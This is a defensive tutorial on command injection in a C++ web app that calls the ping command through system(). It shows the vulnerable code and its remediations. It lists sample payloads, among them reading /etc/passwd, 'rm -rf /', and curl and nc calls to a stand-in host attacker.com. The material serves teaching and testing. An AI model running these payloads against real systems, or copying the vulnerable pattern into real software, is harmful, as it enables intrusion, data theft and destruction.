 
* An overview of the vulnerability
* A real-world example (your C++ "ping" app)
* How the attack works
* Detailed remediation strategies
* Best practices

---

# 🛡️ Command Injection: Explanation, Example & Remediation

---

## 🔍 What is Command Injection?

**Command Injection** is a critical security vulnerability that allows attackers to execute arbitrary commands on the host operating system via a vulnerable application. This happens when:

* User input is concatenated into a system command (e.g., via `system()`, `popen()`, or `exec()`)
* The input is not properly validated or sanitized

Command injection gives attackers control over the underlying server, potentially leading to:

* Unauthorized data access
* File deletion or modification
* Privilege escalation
* Total system compromise

---

## 💣 Real-World Example: Vulnerable C++ Web App

Imagine a C++ web server with a route that lets users ping a host by calling the Linux `ping` command via `system()`.

### ⚠️ Vulnerable Code

```cpp
std::string cmd = "ping -c 2 " + user_input + " > output.txt";
system(cmd.c_str());
```

If a user submits:

```
127.0.0.1; whoami
```

The actual shell command becomes:

```bash
ping -c 2 127.0.0.1; whoami > output.txt
```

Result: both `ping` and `whoami` are executed — and the attacker sees the result of `whoami`.

---

## ⚔️ Types of Command Injection

| Type                      | Description                                                                         |
| ------------------------- | ----------------------------------------------------------------------------------- |
| **Direct Injection**      | Executes commands immediately from input (as above)                                 |
| **Blind Injection**       | Output is not returned, but effect is observable (e.g., server delay, file changes) |
| **Out-of-Band Injection** | Command causes external interaction (e.g., DNS or HTTP request to attacker server)  |

---

## 🔍 How Attackers Exploit This

1. **Injection markers**:

   * `;`, `&&`, `||`, `|` → chain commands
   * Backticks $`command`$, `$(command)` → execute inline
2. **Common payloads**:

   * `127.0.0.1; cat /etc/passwd`
   * `127.0.0.1 && curl http://attacker.com`
   * `$(rm -rf /)` (if unprotected shell)

---

## 🔐 Remediation Techniques

### ✅ 1. **Avoid `system()` and related functions**

* Do not use `system()`, `popen()`, `exec()`, `shell_exec()` with untrusted input.

### ✅ 2. **Use Safe APIs Instead**

* Use direct APIs for functionality. For example:

  * Use `boost::asio` for networking (ping equivalent)
  * Use C++ libraries instead of shell commands

### ✅ 3. **Input Whitelisting**

* Validate input against a strict pattern

```cpp
bool is_valid_hostname(const std::string& host) {
    for (char c : host) {
        if (!(isalnum(c) || c == '.' || c == '-'))
            return false;
    }
    return true;
}
```

* Accept **only known safe characters** for hostnames

### ✅ 4. **Escape Arguments**

* If `system()` is unavoidable, at least escape input

  * Not foolproof!
  * Tools: `shlex.quote()` (Python), shell-safe wrappers (C++ doesn't have standard)

### ✅ 5. **Use `fork` + `execv()` Instead of `system()`**

* Bypasses the shell entirely — no interpretation of input

```cpp
pid_t pid = fork();
if (pid == 0) {
    execlp("ping", "ping", "-c", "2", user_input.c_str(), NULL);
    exit(1);
}
```

* `exec` accepts argument arrays and does **not** parse a shell command string

### ✅ 6. **Limit Execution Privileges**

* Run the app as a **non-root** user
* Use containers or sandboxes (e.g., Docker, AppArmor)

### ✅ 7. **Log, Monitor, and Alert**

* Log all input and commands
* Alert on suspicious patterns (e.g., `;`, `&&`, long input strings)

---

## 📘 Summary: Command Injection Defense Checklist

| Technique             | Safe? | Notes                            |
| --------------------- | ----- | -------------------------------- |
| Use of `system()`     | ❌     | Highly discouraged               |
| Input validation      | ✅     | First line of defense            |
| Command escaping      | ⚠️    | Fragile, not foolproof           |
| execv/execvp          | ✅     | Preferable, avoids shell parsing |
| Use of safe libraries | ✅✅    | Best practice                    |
| Drop privileges       | ✅     | Contain damage                   |

---

## 🧪 Testing for Command Injection

* Try payloads like `test; ls`, `$(id)`, `| nc attacker.com 4444`
* Use tools: [Burp Suite](https://portswigger.net/burp), [OWASP ZAP](https://owasp.org/www-project-zap/), [Commix](https://github.com/commixproject/commix)

---

## 🧠 Final Thoughts

Command injection vulnerabilities are **easy to miss** and **catastrophic** in impact. Any time your code calls out to the system shell, **stop and reconsider**:

* Do you need to?
* Can you replace it with a safer library?
* Are you validating and sanitizing everything?

Mitigating command injection is about **good design**, not just patching inputs.


